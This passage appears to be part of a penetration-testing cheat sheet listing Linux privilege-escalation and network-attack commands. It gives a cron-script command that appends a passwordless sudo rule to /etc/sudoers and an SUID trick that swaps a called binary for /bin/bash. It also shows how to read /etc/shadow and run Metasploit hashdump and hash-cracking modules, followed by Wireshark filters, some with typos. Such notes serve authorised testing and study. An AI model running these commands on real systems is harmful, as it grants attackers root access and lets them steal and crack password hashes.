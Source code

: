 **Cron Jobs**

```
# CRON
crontab -l

find / -name <CRONJOB_SCRIPT>

printf '#!/bin/bash\necho "<USER> ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/<CRONJOB_SCRIPT>
```

**SUID**

```
# SUID
file <FILE>
strings <FILE>
	# find called binary
rm <BINARY>
cp /bin/bash <BINARY>
./<FILE>
```

**Linux Credential Dumping**



```
cat /etc/passwd
sudo cat /etc/shadow

# METASPLOIT (once exploited)
use post/linux/gather/hashdump
set SESSION <NUMBER>

use auxiliary/analyze/crack_linux
set SHA512 true
```

#### Network Based Attacks



**Wireshark**



```
wireshark -i eth1

# Filter by ip
ip.add == 10.10.10.9

# Filter by dest ip
ip.dest == 10.10.10.15

# Filter by source ip
ip.src == 10.10.16.33

# Filter by tcp port
tcp.port == 25

# Filter by ip addr and port
ip.addr == 10.10.14.22 and tcp.port == 8080

# Filter SYN flag
tcp.flags.syn == 1 and tcp.flags.ack ==0

# Broadcast filter
eth.dst == ff:ff:ff:ff:ff:ff
```